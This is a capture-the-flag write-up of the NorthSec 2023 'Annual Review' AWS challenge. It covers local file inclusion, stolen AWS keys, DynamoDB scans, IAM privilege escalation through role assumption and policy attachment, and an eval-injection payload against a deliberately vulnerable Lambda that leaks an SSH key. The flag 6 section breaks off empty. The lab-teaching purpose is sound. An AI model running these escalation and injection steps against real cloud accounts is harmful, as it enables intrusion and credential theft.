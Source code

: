 ```yaml
---
published: false
---
```

## Northsec 2023

### Annual Review (aws track) writeup

This challenge greeted us web hosted application and credentials for a user (user : 120875ABAB, password : XvsKqambqCYOJj9rxcIQ). Once logged in with de given user, we land on a page with an employee review of our user, a logout button and a "Read the annual review guide" button.\
![employeeReview](/images/aws/employeeReview.png)\

### Flag 1

When we clicked on the annual review button, we see that the parameter file is specify in the url, thats a good hint to [file intrusin](https://en.wikipedia.org/wiki/File_inclusion_vulnerability).\
![lfi](/images/aws/lfi.png)\

Since we cee that our current page is preview.php, our first guess is /var/www/html/index.php and bingo!\
![index](/images/aws/indexPhp.png)\

We now have the source code of the home page and the first thing we see is that it requires the 'libs/utils.php' file. Lets look at it!
![utils](/images/aws/utils.png)\

Same thing again, but with dynamo.php (hint to dynamoDb in aws!), and we get the first flag : flag-d19650aa911acb7c130aa380601d169d3bd08ab4\
![flag1](/images/aws/flag1.png)\

### Flag 2

Additionally, in the source code of this file, we get credentials for a new user and 2 databases, GOD_LoginEmployee and GOD_ReviewEmployee.\

From here we need to user the [aws command-line interface tool](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html).\ Since we have that hint for dynamodb in the filename, a quick question to chatgpt for the command to scan aws dynamo databases we get that command :\
`aws dynamodb scan --table-name GOD_LoginEmployee`\
But first, we need to configure the credentials we got with `aws configure`.\
We now get the second flag as one of the employee's password : flag-9add6a1bb1cde15c378eacbacd720efc69501967 !!\
![flag2](/images/aws/flag2.png)

### Flag 3

Next, let's look at the next database : `aws dynamodb scan --table-name GOD_LoginEmployee`\
![documentation](/images/aws/documentation.png)\
We see that one of the employee wrote solid documentation that is referenced is a s3 bucket, we can download that md file and take a look at it.\
![flag3](/images/aws/flag3.png)\
There's the 3rd flag : flag-7fa969573c3ff2190e892095166cf71635eca0be !

### Flag 4

We also got credentials and documentation on how to use it. Lets try it!\
We added thoses infos to our ~/.aws/credentials file and now lets try the commands.\
We see that we are the user GOD_svc_iam and attached to our user is a policy named GOD_IAM_Management that allows us to execute some enumeration actions like listing roles, policies and others.\
![user](/images/aws/user.png)\
Listing the roles, we stumble upon a role destined for our user to assume it, the GOD_IAM-Manager-Role.\
![role](/images/aws/role.png)\
Lets look at what that role policies is then! We can do the following command to do so : `aws iam list-role-policies --role-name GOD_IAM-Manager-Role --profile svc_iam`\
![attachCustom](/images/aws/attachCustom.png)\
A policy that allow us to attach any user policy that starts with "GOD_Custom*". Looking at the policies earlier we came accross this one : \
![policy](/images/aws/policy.png)\
Looking at it, we see we can attach the GOD_CustomDebugEmployeeReview policy to our user using the role GOD_IAM-Manager-Role.\
![getPolicy](/images/aws/getPolicyVersion.png)
We use theses commands : \
`aws sts assume-role --role-arn arn:aws:iam::099372978839:role/GOD_IAM-Manager-Role --role-session-name testName --profile svc_iam`\

`aws iam attach-user-policy --policy-arn arn:aws:iam::099372978839:policy/GOD_CustomDebugEmployeeReview --user-name GOD_svc_iam --profile pwn`\
Where pwn is the name of the new profile you created in your ~/.aws/credentials file with the output of the previous command :
```
[pwn]
aws_access_key_id=<acces_key>
aws_secret_access_key=<secret_access_key>
aws_session_token=<session_token>
region=us-east-1
```
\
Then you can invoke the get-function of the lambda GOD_DebugEmployeeApp : \
`aws lambda get-function GOD_DebugEmployeeApp --profile svc_iam` \
And you'll get this output : \
![lambdaFunction](/images/aws/ambdaFunction.png)\
In the location, we see an url that makes us download a zip file that contains the following python code :\
```py
import json
import boto3

def get_ssh_usage():
  return 200, """
  Documentation has been moved to infrastructure.md
  """

def get_private_key():
  # flag-5aac692710f20e627fc5792d9c06f958238d0f51
  client = boto3.client('secretsmanager', region_name='us-east-1')
  response = client.get_secret_value(SecretId='arn:aws:secretsmanager:us-east-1:099372978839:secret:GOD_EmployeeAppDebugKey-INFs4h')
  secret = json.loads(response['SecretString'])
  key = secret['private']
  return 200, key

def debug(cmd):
  output = str(eval(cmd))
  output_length = len(output)
  if (output_length > 200):
    msg = "Output is too big, we are trying to save bandwitdh : %s characters" % output_length
    return 507, msg
  else:
    return 200, output

def process_command(event):
  command = event['command']

  if (command == "STATUS"):
    return 200, "Everything is running smoothly"

  elif (command == "TEATIME"):
    return 418, "Want some tea?"

  elif (command == "DEBUG"):
    return debug(event['debug_cmd'])

  # Working but disabled for now
  # elif (command == "SSH_KEY"):
  #  return get_private_key()

  # Working but disabled for now
  # elif (command == "SSH_USAGE"):
  #  return get_ssh_usage()

  else:
      return 404, "command not found"

def main(event):
  code, output = process_command(event)
  return {
    'statusCode': code,
    'body': json.dumps(output)
  }

def lambda_handler(event, texcont):
  try:
    return main(event)
  except:
    return {'statusCode': 500}
```
\
There is our 4th flag in the comments : flag-5aac692710f20e627fc5792d9c06f958238d0f51 !!

### Flag 5

Now let's try to invoke this function with invoke-function. \
By reading and understanding the code, we see that the `event` parameter is pass to main and then to process_command. We understand that we need to put a dictionnary with the key-value pair "command":"DEBUG" to enter the debug function. This function evaluate some python string locate at event\['debug_cmd'\]. We want to call get_private_key() but it is clear that the key output will be more thant 200 in length. So to bypass that, we'll call that function 3 times with theses payloads, \[:199\], \[199:399\] and \[399:\]  :\
`{"command":"DEBUG", "debug_cmd":"get_private_key()\[1\]\[:199\]"}`

Googling and ChatGPT-ing a bit tells us how to pass event parameters to aws lambda function (base64 encoded the payloads) : \
`aws lambda invoke --function-name GOD_DebugEmployeeApp --payload eyJjb21tYW5kIjoiREVCVUciLCJkZWJ1Z19jbWQiOiJnZXRfcHJpdmF0ZV9rZXkoKVsxXVs6MTk5XSJ9 output.txt --profile svc_iam`\
After doing that, we now have a ssh private key. Good thing the documentation obtained earlier explains us how to use it!\
![flag5](/images/aws/flag5.png)\
Flag 5 : flag-b3e3a5a9f911e5bce45feea39bd9691d9b947ab3\

### Flag 6




Enter text in [Markdown](http://daringfireball.net/projects/markdown/). Use the toolbar above, or click the **?** button for formatting help.
